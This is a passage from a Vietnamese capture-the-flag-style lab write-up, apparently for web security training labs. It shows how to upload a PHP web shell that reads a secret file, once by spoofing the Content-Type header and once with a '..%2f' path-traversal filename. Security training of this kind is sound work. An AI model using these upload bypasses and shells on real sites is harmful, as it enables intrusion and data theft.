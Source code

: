 Ta đã lấy được nội dung trong file `secrete`

---

### **Web shell upload via Content-Type restriction bypass**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Bật `Intercept` trong Burp Suite, đổi `Content-Type` thành `image/jpeg` (file ảnh)

Upload thành công

![Untitled](writeup_media/Untitled%2014.png)

Trở về trang chủ, đọc file ava ta vừa upload → được nội dung file `secret`

![Untitled](writeup_media/Untitled%2015.png)

---

### **Web shell upload via path traversal**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Bật `Intercept` trong Burp Suite, đổi `filename` thành `..%2fava.php` để lưu file ra ngoài folder avatar

